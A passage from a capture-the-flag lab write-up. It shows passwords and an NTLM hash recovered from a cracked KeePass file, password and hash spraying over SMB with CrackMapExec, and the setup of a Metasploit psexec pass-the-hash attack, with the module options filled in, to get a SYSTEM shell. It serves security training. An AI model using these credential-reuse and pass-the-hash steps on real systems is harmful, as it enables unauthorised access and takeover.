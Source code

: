 We can then open this file with the Keepass utility, and the password we discovered with JTR. 

![Opening KeePass Database File](https://i.imgur.com/RYZ8yPc.png "Opening KeePass Database with cracked password -'moonshine1'")


Here are the contents that were contained in the keepass database file.

```
Password
12345
F7WhTrSFDKB6sxHU1cUn
pwndyouall!
lCEUnYPjNfIuPZSzOySA
S1TjAtJHKsugh9oC4VZl
aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```

We have a few passwords & and a hash `aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00` which happens to be an `NTLM` hash. The `SMB` Service (Port 445) is exposed on this server, so we can attempt to authenticate to the system using a password spray attack or a pass-the-hash attack.

I'm a pretty big fan of [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) as a tool, and I use it pretty frequently for my real life work as well.

Some CME syntax: `-p` is for a list of passwords, and `-H` is for a list of hashes. 

I used the `--lusers` flag to enumerate the logged on users just to validate that the credentials I used actually worked.


!["Credential & Hash Spraying with CrackMapExec")](https://i.imgur.com/W9jh3Sn.png "Credential & Hash Spraying with CrackMapExec")

##### Shell with Metasploit PSEXEC Module & Hash

With a valid hash of the administrator account, we can perform a pass-the-hash attack & compromise the machine. I chose to use Metasploit for this, but there are plenty of tools which do the same thing as this module.

_Getting SYSTEM shell with msf psexec_
```
msf > use exploit/windows/smb/psexec
msf exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting                                                    Required  Description
   ----                  ---------------                                                    --------  -----------
   RHOST                 10.10.10.63                                                        yes       The target address
   RPORT                 445                                                                yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                                                                      no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                     no        The service display name
   SERVICE_NAME                                                                             no        The service name
   SHARE                 ADMIN$                                                             yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                                                                  no        The Windows domain to use for authentication
   SMBPass               aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00  no        The password for the specified username
```